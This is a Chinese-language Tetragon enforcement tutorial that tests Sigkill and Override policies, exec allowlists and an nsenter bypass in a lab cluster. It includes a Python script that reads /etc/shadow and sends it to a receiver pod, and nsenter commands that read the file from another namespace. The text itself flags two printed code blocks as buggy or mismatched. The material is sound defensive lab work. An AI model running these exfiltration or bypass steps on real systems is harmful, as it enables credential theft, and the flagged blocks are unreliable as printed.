



Day 6: 從偵測到攔截——Sigkill、Override 與擋得住的邊界¶
Day 5 的 TracingPolicy 只做一件事：把符合條件的檔案讀取記下來。現在換一個需求——「這個命名空間只准跑清單上的那幾支程式，其他一律擋下」——你要做的是把 matchActions 從「記錄」改成會動手的動作，讓違規的行程被殺掉。
殺掉一個行程很容易。難的是兩件會跟直覺不一樣的事：殺掉行程，等不等於擋住它正在做的事（機密可能在行程死掉之前就已經送出去了）；還有寫錯一條攔截規則，從應用程式那一側看起來是什麼樣子（很可能什麼異常都看不到）。
讀完這一章，一條攔截策略上線之後，你能判斷它是不是真的生效、它擋住的是操作本身還是只是事後把行程殺掉、哪些情況它根本攔不到，以及誤殺發生時該去哪裡才看得見。
為什麼第一步不是寫攔截策略¶
先看一個 Day 5 已經出現、但在偵測情境下無所謂的現象：一條策略 kubectl apply 回報成功、物件查得到、status 是空的、describe 的事件也是空的——四個 Kubernetes 端的訊號全綠——可是它根本沒有載入核心（Day 5「kubectl apply 成功，策略卻沒有載入」）。
在偵測情境，這只是少看了幾筆事件。在攔截情境，這代表你以為已經擋住，其實什麼都沒擋。所以今天的順序跟前幾天相反：第一步先把「這條策略到底載入了沒有」變成一個能重複執行的指令，而且要用一條故意壞掉的策略證明這個檢查真的會判它失敗。只對一條好策略跑一次檢查，無法證明這個檢查在策略壞掉時會報錯。
步驟 1: 先把「策略載入了沒有」變成一個指令¶
策略是否載入，要向每顆節點上的 agent 查詢 tetra tracingpolicy list，同時檢查 state 與 mode。任何一顆未載入、模式不符或無法查詢，都應以非零結束。
下方保留原刊腳本，但它有 Python 引號錯誤，也會漏判查詢失敗、指定策略不存在與模式不符。驗證素材 05-policy-state.sh 第 21–49 行有可用的字串格式、get pod 與部分失敗處理，仍不足以完成上述檢查。使用前須依下列寫法修正；修正後的寫法本課沒有實跑：
- 在
WANT後加入MODE="${2:-TP_MODE_ENFORCE}"，並以[[ -n "$WANT" ]] || exit 1要求指定策略名稱。MODE只接受TP_MODE_ENFORCE或TP_MODE_MONITOR_ONLY，其他值以非零結束。 - 將節點列舉拆出迴圈：先執行
pods=$(kubectl -n tetragon get pods -l app.kubernetes.io/name=tetragon -o name) || exit 1，再以[[ -n "$pods" ]] || exit 1拒絕空清單，最後用for pod in $pods; do逐一查詢。這可避免列舉失敗或沒有 agent 時，因迴圈未執行而回報成功。 - 查節點名稱時補上資源類型，寫成
node=$(kubectl -n tetragon get pod "${pod#pod/}" -o jsonpath='{.spec.nodeName}') || { rc=1; continue; }；空節點名稱也用[[ -n "$node" ]] || { rc=1; continue; }判為失敗。 - 查策略的
json=$(...)後，把|| continue改成|| { rc=1; continue; }。保留set -uo pipefail與 Python 管線後的|| rc=1，讓查詢失敗、無效 JSON 或解析錯誤都留下非零狀態。 - Python 改以
want=sys.argv[1]; node=sys.argv[2]; mode=sys.argv[3]; bad=0; found=False初始化；通過名稱篩選後設found=True。輸出改用print("%s %s state=%s mode=%s" % (node, p.get("name"), st, p.get("mode", "-")))，避免原 f-string 的反斜線引號問題。 - 判斷改為
if st!="TP_STATE_ENABLED" or p.get("mode")!=mode: bad=1，最後用sys.exit(bad or not found)，並在 Python 的"$WANT" "$node"後加上"$MODE"。任何 agent 缺少指定策略、狀態或模式不符，都不能回報成功。
修正後，觀察策略用 ./policy-state.sh lab-exec-observe TP_MODE_MONITOR_ONLY 檢查；攔截策略用 ./policy-state.sh lab-exec-allowlist TP_MODE_ENFORCE。後續原有輸出保留當時紀錄，不能當作這份修正版已在叢集驗證的結果。
cat > policy-state.sh <<'EOF'
#!/usr/bin/env bash
# The only trustworthy check: ask every agent for the policy's state and mode.
# Kubernetes-side signals (apply succeeded, object exists, no status, no events)
# are all green even when the policy failed to load.
# Exit 1 if any agent reports anything other than TP_STATE_ENABLED.
set -uo pipefail
WANT="${1:-}"
rc=0
for pod in $(kubectl -n tetragon get pods -l app.kubernetes.io/name=tetragon -o name); do
node=$(kubectl -n tetragon get "${pod#pod/}" -o jsonpath='{.spec.nodeName}' 2>/dev/null)
json=$(kubectl -n tetragon exec "${pod#pod/}" -c tetragon -- \
tetra tracingpolicy list -o json 2>/dev/null) || continue
echo "$json" | python3 -c '
import json,sys
want=sys.argv[1]; node=sys.argv[2]; bad=0
for p in (json.load(sys.stdin) or {}).get("policies") or []:
if want and p.get("name")!=want: continue
st=p.get("state","?"); print(f"{node} {p.get(\"name\")} state={st} mode={p.get(\"mode\",\"-\")}")
if st!="TP_STATE_ENABLED": bad=1
sys.exit(bad)' "$WANT" "$node" || rc=1
done
exit $rc
EOF
chmod +x policy-state.sh
策略正常載入時¶
沿用 Day 5 的 ebpf-lab 命名空間。先建立並套用純觀察策略，再跑檢查。linux_binprm 是核心處理程式執行時的資料結構，本例用它取得目標執行檔的路徑：
cat > tracingpolicy-exec-observe.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
name: lab-exec-observe
namespace: ebpf-lab
spec:
kprobes:
- call: "security_bprm_check" # after the kernel resolved the target binary,
syscall: false # before the new image starts running
args:
- index: 0
type: "linux_binprm"
EOF
kubectl apply -f tracingpolicy-exec-observe.yaml
以下是原有的載入狀態紀錄：
$ kubectl apply -f tracingpolicy-exec-observe.yaml
$ ./policy-state.sh
<node-a> lab-exec-observe state=TP_STATE_ENABLED mode=TP_MODE_MONITOR_ONLY
<node-b> lab-exec-observe state=TP_STATE_ENABLED mode=TP_MODE_MONITOR_ONLY
<node-c> lab-exec-observe state=TP_STATE_ENABLED mode=TP_MODE_MONITOR_ONLY
這裡要同時盯兩個欄位。state 說策略在不在核心裡；mode 今天跟 state 一樣重要：一條本該攔截的策略若回報 TP_MODE_MONITOR_ONLY，它就只是一條偵測策略，而 Kubernetes 那一側看不出任何差別。
策略載入失敗時¶
拿掛勾名稱少打一個字母當反例。將下列驗證素材存成 tracingpolicy-badload.yaml，再執行後面的套用指令：
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
name: lab-badload
namespace: ebpf-lab
spec:
kprobes:
- call: "security_file_permision"
syscall: false
args:
- index: 0
type: "file"
selectors:
- matchArgs:
- index: 0
operator: "Equal"
values:
- "/etc/shadow"
matchActions:
- action: Sigkill
其中故意寫錯的是這一行：
$ kubectl apply -f tracingpolicy-badload.yaml
tracingpolicynamespaced.cilium.io/lab-badload created ← 成功
$ kubectl -n ebpf-lab get tracingpoliciesnamespaced
lab-badload 0s ← 存在
$ … -o json | jq .status
<absent> ← 沒有 status
$ kubectl describe … | tail -1
Events: <none> ← 沒有 event
$ ./policy-state.sh lab-badload ; echo rc=$?
<node-a> lab-badload state=TP_STATE_LOAD_ERROR mode=-
<node-b> lab-badload state=TP_STATE_LOAD_ERROR mode=-
<node-c> lab-badload state=TP_STATE_LOAD_ERROR mode=-
rc=1
四個 Kubernetes 端的訊號全綠，三顆節點的 agent 全紅。 call 這個欄位為什麼不可能靠 kubectl apply 擋下來，見疑難排解：掛勾名稱打錯字只有 agent 知道；另一個欄位打錯字卻會被當場退件，見選擇 NotEqual 運算子。
步驟 2: 命名空間內的 exec 允許清單¶
目標是一條策略：ebpf-lab 裡只准執行清單上的程式，其他的 exec 一律 Sigkill(matchActions 的攔截動作之一，送出 SIGKILL 結束行程）。
準備測試工作負載¶
三個角色分別是持續執行 date 與 head 的 lab-worker、接收 TCP 資料的 lab-receiver，以及執行違規程式的 lab-violator。將下列驗證素材存成 lab-workloads.yaml，以 kubectl apply -f lab-workloads.yaml 套用，待三顆 Pod 都就緒後再往下做。檔案使用節點標籤 pool: ebpf；節點需具備這個標籤，才能符合排程條件。後面的跨節點外流測試還需要確認 lab-receiver 與 lab-violator 位於不同節點，這份 manifest 本身沒有強制分開排程。
apiVersion: v1
kind: ConfigMap
metadata:
name: lab-worker-script
namespace: ebpf-lab
data:
work.sh: |
#!/bin/bash
i=0
while true; do
i=$((i+1))
ts=$(/usr/bin/date -u +%H:%M:%S.%3N)
rel=$(/usr/bin/head -c 24 /etc/os-release)
echo "tick=$i t=$ts work=[$rel]"
/usr/bin/sleep 2
done
---
apiVersion: v1
kind: Pod
metadata:
name: lab-worker
namespace: ebpf-lab
labels:
app: lab-worker
spec:
restartPolicy: Always
nodeSelector:
pool: ebpf
tolerations:
- key: kubernetes.azure.com/scalesetpriority
operator: Equal
value: spot
effect: NoSchedule
containers:
- name: worker
image: mcr.microsoft.com/mirror/docker/library/ubuntu:24.04
command: ["/bin/bash", "/work/work.sh"]
resources:
requests:
cpu: 20m
memory: 32Mi
volumeMounts:
- name: script
mountPath: /work
volumes:
- name: script
configMap:
name: lab-worker-script
---
apiVersion: v1
kind: Pod
metadata:
name: lab-receiver
namespace: ebpf-lab
labels:
app: lab-receiver
spec:
nodeSelector:
pool: ebpf
tolerations:
- key: kubernetes.azure.com/scalesetpriority
operator: Equal
value: spot
effect: NoSchedule
containers:
- name: receiver
image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
# one accept per loop, byte count and first bytes to stdout: the evidence of
# exfiltration has to come from the receiver's own log, because bytes that
# arrived here left the killed process for good no matter what happened to
# that process a microsecond later
command:
- python3
- -u
- -c
- |
import socket, time
s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(("0.0.0.0", 9000)); s.listen(8)
while True:
c, a = s.accept()
buf = b""
while True:
d = c.recv(65536)
if not d: break
buf += d
c.close()
print("RECEIVED %s bytes=%d first=%r" % (
time.strftime("%H:%M:%S"), len(buf), buf[:48]))
resources:
requests:
cpu: 10m
memory: 32Mi
---
apiVersion: v1
kind: Pod
metadata:
name: lab-violator
namespace: ebpf-lab
labels:
app: lab-violator
spec:
nodeSelector:
pool: ebpf
tolerations:
- key: kubernetes.azure.com/scalesetpriority
operator: Equal
value: spot
effect: NoSchedule
containers:
# python:3.11-slim, because step 4 needs the leak to happen inside ONE process:
# `cat secret > /dev/tcp/...` splits the read and the send across a shell and a
# cat, which leaves room to argue the kill landed in the gap. A single python
# process that reads the file and calls sendall() on the next line removes that
# argument -- whatever reaches the receiver escaped the exact process the
# policy was aimed at.
- name: violator
image: mcr.microsoft.com/mirror/docker/library/python:3.11-slim
command: ["/bin/sleep", "infinity"]
resources:
requests:
cpu: 10m
memory: 32Mi
允許清單要從量測抄，不是從腳本抄¶
寫清單之前有一個陷阱：策略比對的是核心替執行檔解析完的路徑，跟你在命令列打的路徑不一定相同——符號連結跟到底、映像檔裡的 /bin 併進 /usr/bin。所以先讓步驟 1 已套用的零動作觀察策略跑一段時間，把真正會到達策略的字串量出來：
$ ./tetra-events.sh --since 60s | …
30 ('lab-worker', '/usr/bin/date')
30 ('lab-worker', '/usr/bin/head')
30 ('lab-worker', '/usr/bin/sleep')
到達策略的字串全都在 /usr/bin/ 底下（例如 /usr/bin/date）。如果憑印象寫成 /bin/date 之類的路徑，策略一生效，工作負載在第一個 tick 就可能被殺掉（本課沒有實際用錯誤清單跑過）。若映像檔使用 busybox，多個小工具可能都解析成同一支執行檔，單靠這個路徑就無法分辨它們。
這條觀察策略掛在 security_bprm_check，用來取得核心解析後的目標檔案路徑。sys_execve 入口的參數仍是使用者空間指標；security_bprm_check 則在核心開好、解析好目標檔案之後、新映像開始執行之前執行。本例在這裡比對允許清單，後續以呼叫端結果與攔截事件確認效果。
選擇 NotEqual 運算子¶
NotEqual 搭配多個允許值，表示目標路徑必須與所有允許值都不相同，才會觸發動作。不要換成 NotIn：matchArgs.operator 有 enum，使用不支援的值會被 API server 拒絕，以下是原有錯誤紀錄：
$ kubectl apply -f tracingpolicy-exec-allowlist.yaml
The TracingPolicyNamespaced "lab-exec-allowlist" is invalid:
* spec.kprobes[0].selectors[0].matchArgs[0].operator: Unsupported value: "NotIn":
supported values: "Equal", "NotEqual", "Prefix", "NotPrefix", "Postfix", "NotPostfix",
"GreaterThan", "LessThan", "GT", "LT", "Mask", "SPort", … "InMap", "NotInMap", …
相較之下，Day 5 的 returnArgAction 沒有 enum，錯誤可能到 agent 載入時才出現。因此套用成功後，仍須查每顆 agent 的狀態。
為什麼清單需要 /runc¶
每次 kubectl exec 進入測試命名空間，runc 都會在容器的 cgroup 裡重新執行，命名空間範圍的策略也會比對到它。漏掉 /runc 時，連允許的程式都可能無法啟動。以下是漏列時的錯誤紀錄：
$ kubectl -n ebpf-lab exec lab-violator -- /bin/bash -c 'echo ok'
error: Internal error occurred: … OCI runtime exec failed: exec failed:
unable to start container process: error copying bootstrap data to pipe: write init-p: broken pipe
這個錯誤訊息沒有一個字提到 Tetragon、策略或攔截，而匯出的事件流那段時間一筆相關事件都沒有。直接接 gRPC 才看得到：
$ kubectl -n tetragon exec <tetragon-pod> -c tetragon -- timeout 22 tetra getevents
04:21:05.744 ns=None pod=None binprm=/runc cur=/usr/bin/runc act=KPROBE_ACTION_SIGKILL
這筆事件當時沒有 pod 歸屬，而 chart 預設排除空命名空間，因此匯出流看不到這次攔截。下方清單已包含 /runc，用來允許這個執行階段。
攔截策略¶
把動作換成 Sigkill，允許值依量測結果設定。下方原刊區塊多列了 /usr/bin/id，其他允許值也與驗證素材不同；照原刊清單套用，不能預期後面的 id 測試遭攔截。依 12-tracingpolicy-exec-allowlist.yaml 第 48–67 行，正確的 values 依序為 /usr/bin/date、/usr/bin/head、/usr/bin/sleep、/usr/bin/bash、/usr/bin/dash、/usr/sbin/nginx、/usr/local/bin/python3.11、/docker-entrypoint.sh、/runc，其中沒有 /usr/bin/id。
保留原刊程式碼區塊，使用前應將 values 換成上述完整清單。修正後的寫法本課沒有實跑；後面的 rc=137 與攔截事件來自驗證素材的清單，不能視為原刊區塊的執行結果。
cat > tracingpolicy-exec-allowlist.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
name: lab-exec-allowlist
namespace: ebpf-lab
spec:
kprobes:
- call: "security_bprm_check"
syscall: false
args:
- index: 0
type: "linux_binprm"
selectors:
- matchArgs:
- index: 0
operator: "NotEqual" # NotIn is not a valid operator here — see mine 3
values:
- "/usr/bin/date"
- "/usr/bin/head"
- "/usr/bin/sleep"
- "/usr/bin/bash"
- "/bin/bash"
- "/usr/bin/id"
- "/usr/bin/cat"
- "/usr/bin/python3"
# Every kubectl exec re-execs runc inside the pod's own cgroup,
# so a namespaced allow list matches it too. Omit this and every
# exec into the namespace dies — including allowed binaries.
- "/runc"
matchActions:
- action: Sigkill
EOF
kubectl apply -f tracingpolicy-exec-allowlist.yaml
確認三顆節點都進入攔截模式：
$ ./policy-state.sh lab-exec-allowlist
<node-a> lab-exec-allowlist state=TP_STATE_ENABLED mode=TP_MODE_ENFORCE
（三顆節點相同）
違規的行程確實被殺¶
$ kubectl -n ebpf-lab exec lab-violator -- /bin/bash -c '/usr/bin/id -u; echo "shell saw rc=$?"'
shell saw rc=137
/bin/bash: line 1: 64 Killed /usr/bin/id -u
137 = 128 + 9，而那行 Killed 是呼叫端的 shell 自己印的，不是從 Tetragon 的事件推論出來的。不經過 shell、直接發動時，呼叫端看到的是：
Tetragon 這一側對應一筆攔截事件：
04:22:59.406 ns=ebpf-lab pod=lab-violator binprm=/usr/bin/id cur=/bin/bash
policy=lab-exec-allowlist act=KPROBE_ACTION_SIGKILL
正常的工作負載照常運作¶
驗這一半有個陷阱：一顆只會 sleep 的 pod，在「把其他東西都殺光」的策略下看起來跟正常運作一模一樣。所以這顆工作負載每兩秒實際執行兩支程式，再把取得的資料印進編號心跳：
tick=392 t=04:22:57.750 work=[PRETTY_NAME="Ubuntu 24.0]
tick=393 t=04:22:59.754 work=[PRETTY_NAME="Ubuntu 24.0] ← 違規行程在這一秒被殺
tick=394 t=04:23:01.759 work=[PRETTY_NAME="Ubuntu 24.0]
tick=395 t=04:23:03.764 work=[PRETTY_NAME="Ubuntu 24.0]
tick=396 t=04:23:05.769 work=[PRETTY_NAME="Ubuntu 24.0]
tick=397 t=04:23:07.773 work=[PRETTY_NAME="Ubuntu 24.0]
$ kubectl -n ebpf-lab get pods
lab-worker 1/1 Running 0 13m ← 沒有重啟
編號連續、間隔穩定、資料欄位有內容、RESTARTS 0——兩半都有證據。同一個窗口 Falco 也報了告警，時間戳與 Tetragon 的攔截事件相同：同一個核心瞬間，一邊產出一筆有名字、有嚴重度的告警，一邊讓違規行程直接結束。
步驟 3: Sigkill 是阻止操作，還是事後結束行程¶
這一題決定攔截的價值，而官方文件的立場要先擺在前面：Tetragon 的強制執行文件說明，送出 SIGKILL 不保證能阻止觸發它的那個操作，並建議把 Signal 與 Override 併用。文件舉的例子是 write()——訊號送出去了，資料還是可能已經寫進檔案。
這一節測量的是 Tetragon 1.7.0、核心 6.8.0-1062-azure 上，掛在 security_file_permission 的策略能否阻止本例的資料外流。結果只適用於這次測試，不能推成所有操作的保證。
先看這兩個動作在一次 read 的生命週期裡分別跑在哪裡；掛勾位置說明介入時機，不能單靠它判定操作是否完成：

圖中的 security_file_permission 是實際讀取前的 LSM 權限檢查。Sigkill 在此送出結束行程的訊號，仍不能保證操作未完成；Override 則覆寫檢查函式的回傳值，以錯誤拒絕這次讀取。掛勾都在讀取前，不代表兩種動作有相同的保證。
怎麼量¶
三顆 pod：讀取者、接收者（另一顆節點上的 TCP server）、正常工作負載。判決不採信被殺行程自己的輸出（被殺的行程什麼都印不出來），只採信接收端的日誌：到得了接收端的位元組，就是真的離開了那個行程，之後它怎麼死都不影響這個事實。洩漏程式把順序壓到最緊——先連線、再讀機密、下一行就送出。
以下程式取自驗證素材 13-exfil-race.py 第 12–37 行，需存放在 ebpf-lab 的 lab-violator 內，路徑為 /tmp/exfil.py。後面的 python3 /tmp/exfil.py 都在該 Pod 內執行，<receiver> 換成 lab-receiver 的 Pod IP，連接埠為 9000。
import socket, sys, time
host, port = sys.argv[1], int(sys.argv[2])
tag = sys.argv[3]
s = socket.create_connection((host, port))
t0 = time.time()
try:
with open("/etc/shadow", "rb") as f:
data = f.read()
except OSError as exc:
# Reached only when the operation was refused rather than the process
# ended. Sending the refusal down the same socket is the point: it proves
# the process is still alive and still holds the connection it opened
# before the violation, which a SIGKILL would have taken with it.
s.sendall(("%s DENIED errno=%s %s" % (tag, exc.errno, exc)).encode())
s.close()
print("SURVIVED-DENIED errno=%s %s" % (exc.errno, exc))
raise SystemExit(3)
t1 = time.time()
s.sendall(tag.encode() + b" len=%d " % len(data) + data)
t2 = time.time()
s.close()
open("/tmp/stolen", "wb").write(data)
print("SURVIVED-LEAKED read=%.3fms send=%.3fms bytes=%d"
% ((t1 - t0) * 1000, (t2 - t1) * 1000, len(data)))
基準線：沒有策略¶
$ python3 /tmp/exfil.py <receiver> 9000 BASELINE
SURVIVED-LEAKED read=0.040ms send=0.039ms bytes=474
接收端: RECEIVED bytes=491 first=b'BASELINE len=474 root:*:20409:0:99999:7:::\ndaemo'
/etc/shadow 的內容確實會出現在另一顆 pod 的日誌裡。讀取與送出各只花幾十微秒——攔截要贏，就得贏在這段時間裡。
掛上 Sigkill¶
cat > tracingpolicy-shadow-sigkill.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
name: lab-shadow-sigkill
namespace: ebpf-lab
spec:
kprobes:
- call: "security_file_permission" # LSM permission check — runs BEFORE the read
syscall: false
args:
- index: 0
type: "file"
- index: 1
type: "int"
selectors:
- matchArgs:
- index: 0
operator: "Equal"
values: ["/etc/shadow"]
- index: 1
operator: "Equal"
values: ["4"]
matchActions:
- action: Sigkill
EOF
| 測試 | 呼叫端看到 | 接收端拿到 |
|---|---|---|
| 讀後送，兩個 syscall（四輪） | Killed / rc=137 |
0 位元組 |
cat /etc/shadow > /tmp/stolen（兩個行程） |
Killed / rc=137 |
檔案建了，內容 0 位元組 |
os.sendfile，讀與送在同一個 syscall 裡 |
Killed / rc=137 |
只有 26 位元組的標記字串，機密 0 位元組 |
最後一列是關鍵。os.sendfile 把讀與送壓進同一次 syscall，整段複製都在核心裡完成，中間沒有回到使用者空間的機會。如果 SIGKILL 只是「在下一個 syscall 邊界結束行程」，核心已經排進 socket 的資料就會跑掉。實測沒有：接收端只拿到程式在讀檔之前自己送的 26 位元組標記。
這次測試的接收端沒有收到機密內容，sendfile 那一輪只收到預先送出的 26 位元組標記。這是本次核心、掛勾與測試程式的觀察，不能據此推論只要掛在操作前，Sigkill 就一定能阻止操作。若必須確保操作不完成，應依官方建議併用 Signal 與 Override。本課沒有測試兩個動作併用，也沒有驗證其他掛勾的結果。
換成 Override¶
刻意跟上面那條只差一行：同一個掛勾、同樣兩個條件、同一支程式、同一行指令，只把動作從 Sigkill 換成 Override 加 argError: -1（也就是回傳 EPERM）。這樣比較，差別就只會落在動作本身。
$ python3 /tmp/exfil.py <receiver> 9000 OVERRIDE-2
SURVIVED-DENIED errno=1 [Errno 1] Operation not permitted ← 行程活著,自己印的
接收端: RECEIVED bytes=59 first=b'OVERRIDE-2 DENIED errno=1 [Errno 1] Operation no'
$ /usr/bin/cat /etc/shadow ; echo cat-rc=$?
cat: /etc/shadow: Operation not permitted
cat-rc=1
機密同樣沒有外流（都是 0），差別在另外三個地方：
Sigkill |
Override |
|
|---|---|---|
| 應用得到的資訊 | 沒有。行程消失，137 是外面的人看到的 |
EPERM，應用自己的錯誤處理路徑收得到 |
| 波及範圍 | 整個行程，見疑難排解：Sigkill 會帶走無關的連線 | 只有那一次操作 |
| 核心記憶體 | 約 347 kB | 約 2.97 MB |
Override 需要目標函式支援覆寫回傳值，不能只用「是否為 syscall」判斷。本例在核心 6.8.0-1062-azure 的非 syscall 掛勾 security_file_permission 上載入成功，並讓 cat /etc/shadow 收到 EPERM；換核心時仍需確認支援條件。
表中的記憶體是本次量測：同一個掛勾上，Sigkill 約 347 kB，與純觀察策略相同；Override 約 2.97 MB。這些核心記憶體不會顯示在 kubectl top，規劃節點容量時仍須納入。
還有一件對防守方不太有利的事：
$ for i in 1 2 3 4 5; do /usr/bin/cat /etc/shadow >/dev/null 2>&1; echo "attempt $i rc=$?"; done
attempt 1 rc=137 … attempt 5 rc=137 （五次全部 Killed）
parent shell alive, pid=190
$ /usr/bin/cat /etc/passwd | head -2 ← 換一個路徑
root:x:0:0:root:/root:/bin/bash
passwd rc=0
攔截成功五次，只結束了五個行程。 發動讀取的父 shell 還在，換一個檔案路徑就能繼續。那五次讀取確實一個位元組都沒拿到，但攔截交付的是「這一個動作沒有發生」，不是「這個攻擊者被處理掉了」。後者要靠偵測那一側：那五次重試在 Falco 是五筆有名字的告警，會進值班頻道、會有人去看。
步驟 4: nsenter 能不能繞過攔截¶
Day 5「nsenter 進去讀的檔，事件記在發起的 pod 上」證明 Tetragon 會把 nsenter 的動作記在呼叫端。攔截把這件事從「標籤貼錯」升級成「守備範圍錯」：TracingPolicyNamespaced 選的是一組 cgroup，而攻擊者的身分就是他自己那組 cgroup。
這張圖先把範圍畫出來：觀察是整顆節點的，攔截只綁一個命名空間的 cgroup。兩個呼叫端做一模一樣的事，差別只在它們屬於哪個命名空間：

兩個呼叫端、一個目標、一模一樣的動作：
=== C1 呼叫端在受保護的命名空間裡（特權 pod）===
lab-worker ← hostname 確認進到目標了
/bin/bash: line 1: 1683 Killed cat /etc/shadow > /tmp/ns1
cat-rc=137
0 ← 讀到 0 位元組
=== C2 呼叫端在另一個命名空間（同樣特權、同一顆節點）===
lab-worker
cat-rc=0
502 ← 讀到 502 位元組
同一個檔案、同一支 cat、相隔一秒、一個死一個沒事。 C2 完全沒有觸發任何攔截事件。
原因在圖上：TracingPolicyNamespaced 選的是呼叫端的 cgroup，而 nsenter 換命名空間、不換 cgroup。一句話講完：它保護的是那個命名空間裡的行程，不是那個命名空間裡的檔案。 C1 那一筆還展示了另一面——攔截生效了，但事件記在呼叫端名下，而檔案在被進入的那顆 pod 裡，所以攔得住不代表事後查得對。
同一個 C2 動作，兩套工具的表現：
04:28:26 Read sensitive file untrusted | cat | pod=<呼叫端> | /etc/shadow
04:28:27 Read sensitive file untrusted | cat | pod=<攻擊者> | /etc/shadow
Falco 兩次都報了，包含 Tetragon 攔不到的那一次。pod 欄位一樣認錯（跟 Day 3 的 nsenter 歸屬一樣），但訊號在。
而 Tetragon 自己的底層 sensor，把整條攻擊鏈連參數都印了出來：
04:28:27.222 process_exec <攻擊者 pod> /bin/bash -c "pid=$(pgrep -f …
04:28:27.255 process_exec <攻擊者 pod> /usr/bin/nsenter -t 12054 -m -u -i -n -p …
04:28:27.260 process_exec <攻擊者 pod> /usr/bin/cat /etc/shadow
Tetragon 的底層觀察涵蓋節點，但本例的攔截策略只選取 ebpf-lab 的 cgroup，因此看得見 C2 的存取，卻不會對它執行攔截。若要涵蓋其他命名空間的呼叫端，需要評估叢集範圍策略及其對共用工作負載的影響；也可以在 admission 層限制特權與 hostPID 設定，降低這類跨 Pod 存取的風險。admission 是 Kubernetes API 請求寫入前的准入檢查階段。
步驟 5: 寫錯攔截規則，從應用側看是什麼樣子¶
把允許清單拿掉一個 /usr/bin/head。這是一支很普通的工具，程式碼審查時很少有人注意到它，而工作負載每兩秒呼叫它一次。其他一個字都沒改。
應用側看到的：
tick=585 t=04:29:24.719 work=[PRETTY_NAME="Ubuntu 24.0] ← 最後一筆正常
tick=586 t=04:29:26.724 work=[] ← 策略生效
tick=587 t=04:29:28.729 work=[]
…
tick=626 t=04:30:46.921 work=[] ← 最後一筆錯誤
tick=627 t=04:30:48.925 work=[PRETTY_NAME="Ubuntu 24.0] ← 修好
所有健康指標：
$ kubectl -n ebpf-lab get pod lab-worker
lab-worker 1/1 Running 0 19m ← 沒重啟
$ kubectl -n ebpf-lab describe pod lab-worker | sed -n '/Events:/,$p'
Normal Scheduled 19m …
Normal Pulled 19m …
Normal Created 19m …
Normal Started 19m … ← 19 分鐘前的開機事件,沒有新的
應用日誌裡連 Killed 都沒有。 shell 在指令替換 $(...) 裡被殺的子行程不會印那行訊息——同一顆 pod 稍早在 kubectl exec 底下被殺時是印的。同一個攔截，兩種呈現，而生產環境裡遇到的是不印的那一種。工作負載整整 82 秒服務「健康」、輸出全錯。
這 82 秒裡，四個地方各自看到不同的東西：

照著圖看，只有 Tetragon 同時說得出被殺的程式與動手的策略。Falco 雖然也報了 22 筆，講的故事卻是錯的：它報的是 bash，因為 exec 在 security_bprm_check 就被殺掉、execve 從來沒有完成，Falco 事件裡的行程名還是舊的那個。Falco 記到了這件事，但行程名稱是錯的，也看不出是哪一套軟體送出的 SIGKILL，因為送出 SIGKILL 的是另一套軟體，而那件事不是一個 syscall。
修復是立即的：刪掉太窄的策略、套回正確的，下一個 tick（兩秒內）就恢復。對照 Day 4 改 Falco 規則要跑一次七十幾秒的 DaemonSet 滾動更新、每顆節點還會有數十秒完全沒有監控：攔截的變更風險比偵測高，但變更本身的機制反而乾淨得多。 這一點對事故處理很實際——搞砸一條攔截策略之後，你可以在兩秒內把它拿掉。
疑難排解¶
冷啟動時 agent 會 panic，那段時間沒有任何攔截¶
症狀:kubectl get pods 出現一個不起眼的重啟次數。
原因:agent 啟動時要向 API server 建立 informer，而叢集冷啟動時 CNI 與 kube-proxy 還沒把那條路打通：
terminated: exitCode 2, reason Error
"failed to determine if *v1.Pod is namespaced: … i/o timeout" duration=30.011672482s
"BPF events statistics: 0 received, 0% events loss"
panic: failed to determine if *v1.Pod is namespaced: …
